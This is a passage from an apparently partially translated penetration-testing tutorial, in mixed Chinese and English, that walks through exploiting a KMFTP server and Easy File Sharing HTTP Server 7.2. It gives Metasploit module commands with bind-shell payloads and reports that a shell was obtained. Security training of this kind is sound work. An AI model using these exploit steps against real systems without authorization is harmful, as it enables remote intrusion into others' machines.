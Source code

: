     简易文件共享 HTTP Server 7.2 也易受攻击。让我们检查一下它们是否可以被利用。

3.  We will first test the FTP. Begin by entering the following commands in the Metasploit console:

    ```
          use exploit/windows/ftp/kmftp_utility_cwd
          set rhost <Target IP address>
          set payload windows/shell_bind_tcp
          exploit

    ```

    输出将如以下屏幕截图所示：

    ![How to do it...](img/image_04_039.jpg)

4.  We successfully got a shell. Now let us test for the Easy File Sharing HTTP Server. Enter the following commands in the Metasploit terminal:

    ```
          use exploit/windows/http/easyfilesharing_seh
          set rhost <Target IP address>
          set payload windows/shell_bind_tcp
          exploit

    ```

    输出将如以下屏幕截图所示：

    ![How to do it...](img/image_04_040.jpg)

